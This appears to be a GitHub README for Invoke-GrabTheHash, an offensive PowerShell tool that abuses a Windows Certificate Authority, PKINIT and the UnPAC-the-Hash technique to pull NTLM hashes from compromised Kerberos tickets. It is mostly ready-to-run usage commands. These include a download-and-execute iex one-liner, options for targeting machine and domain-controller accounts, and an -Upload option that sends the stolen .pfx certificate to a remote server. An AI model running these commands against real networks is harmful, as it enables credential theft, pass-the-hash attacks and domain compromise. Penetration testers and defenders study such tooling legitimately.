 # Invoke-GrabTheHash
Requests a certificate from a Windows Certificate Authority (CA) for the User or Machine Account TGT held in your current session, uses PKINIT to obtain a TGT for the same Account, then performs the UnPAC-the-Hash technique to extract the Account's NTLM hash.

This approach can be valuable in situations where an account's TGT has been compromised. Gaining access to the account hash allows for further actions such as cracking it to retrieve the account plain-text password, pass-the-hash attacks, or acquiring a new TGT if the existing one has expired.

### Run as follows
```
iex(new-object net.webclient).downloadstring('https://raw.githubusercontent.com/Leo4j/Invoke-GrabTheHash/main/Invoke-GrabTheHash.ps1')
```
```
Invoke-GrabTheHash
```

### Specify a target Domain
```
Invoke-GrabTheHash -Domain ferrari.local
```

### Enumerate for Certificate Templates
```
Invoke-GrabTheHash -CertTemplates
```

### Specify a Certificate Template to use
By default, the "User" or "Machine" template is used to request a certificate
```
Invoke-GrabTheHash -TemplateName User
```

### Specify the CA Name
```
Invoke-GrabTheHash -CAName "CA01.ferrari.local\ferrari-CA01-CA"
```

### Specify the Account Client Name
This must correspond to the TGT Client Name in your current session
```
Invoke-GrabTheHash -CN Administrator
```

### Work with a Machine Account
Make sure you run on an elevated context or it will fail
```
Invoke-GrabTheHash -Machine
```

### If working with a DC Machine Account
```
Invoke-GrabTheHash -Machine -DC
```

### Upload the .pfx file to a server
```
Invoke-GrabTheHash -Upload http://10.0.2.130/Documents/
```

### Stop before grabbing the Hash
```
Invoke-GrabTheHash -Break
```

### Provide a .pfx file
You can also reuse a previously obtained .pfx to get the user hash

Make sure you provide the full path to the .pfx file, as well as the CN and Domain information
```
Invoke-GrabTheHash -PFX C:\Users\Senna\Downloads\Administrator.pfx -Domain ferrari.local -CN Administrator
```

### Example Output
![image](https://github.com/Leo4j/Invoke-GrabTheHash/assets/61951374/da1964e6-2159-42cd-838e-b8d400617cb2)

![image](https://github.com/Leo4j/Invoke-GrabTheHash/assets/61951374/2e887daf-865a-4813-9930-f32815ee653b)

### Credits

Rubeus

https://github.com/GhostPack/Rubeus
